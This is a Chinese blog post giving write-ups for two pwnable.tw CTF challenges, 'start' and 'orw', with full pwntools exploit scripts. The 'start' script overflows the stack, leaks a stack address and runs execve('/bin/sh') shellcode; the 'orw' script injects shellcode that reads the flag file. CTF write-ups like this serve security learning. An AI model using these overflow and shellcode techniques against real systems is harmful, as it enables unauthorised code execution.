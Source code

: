 ```yaml
---
layout:     post
title:      pawnable.tw解出题目的wp
subtitle:   write up
date:       2020-10-22
author:     X1ng
header-img: tw.jpg
catalog: true
tags:
    - pwnable.tw
    - wp

---
```


最近在刷pwnable.tw。。。

### 1.start

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vl628j31v402wdg4.jpg)

没有开NX保护

用ida打开

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vq0uij31wn0u0tg5.jpg)

只有start和exit函数，通过系统调用来调用函数，系统调用好保存在eax中，在执行完4号write系统调用和3号read系统调用后返回地址处是exit函数，可以看到即将执行ret时，esp指向地址的下一个地址是一个栈上的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vez71j31bs0owaf1.jpg)

可以将其覆盖为`mov ecx,esp`，再重新执行write系统调用，就可以泄露出栈地址，再输入shellcode跳转到shellcode即可

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')

if r == 1 :
	p = remote('chall.pwnable.tw',10000)
else:
	p = process('./start')

mov = 0x08048087
#gdb.attach(p,'b *0x804809c')
p.recvuntil('Let\'s start the CTF:')
p.send(b'a'*0x14+p32(mov))
stack = p.recv(4)
stack = u32(stack)
print(hex(stack))

'''

mov ebx,0xffffffff
xor edx,edx
xor ecx,ecx
mov al,11
int 0x80
'''

pd = b'\xbb'+p32(stack-4+0x14+4)+b'1\xd21\xc9\xb0\x0b\xcd\x80'
pd += b'a'*(0x14-len(pd))+p32(stack-4)+b'/bin///sh\x00'
p.sendline(pd)

p.interactive()
```

### 2.orw

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhgdf2fj30qi07ugnk.jpg)

ida反汇编

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhggm0ej316a0c4t9m.jpg)

根据题目提示只能使用open，read，write

在kali上不管输入什么都是段错误，用ubuntu16可以正常写入shellcode

在shellcode后面

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhg52zcj314c0eqagd.jpg)

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')
bss = 0x0804A040

if r == 1 :
	p = remote('chall.pwnable.tw',10001)
else:
	p = process('./orw')
#gdb.attach(p,'b *0x804858a')
p.recvuntil('shellcode:')


#fd = open('/home/orw/flag',0)
s = '''
xor edx,edx;
mov ecx,0;
mov ebx,0x804a094;
mov eax,5;
int 0x80;
'''

#read(fd,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ecx,ebx;
mov ebx,eax;
mov eax,3;
int 0x80;
'''

#write(1,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ebx,1;
mov eax,4
int 0x80;
'''
pd = asm(s)+b'/home/orw/flag\x00'
p.send(pd)
print p.recv()

p.interactive()
```




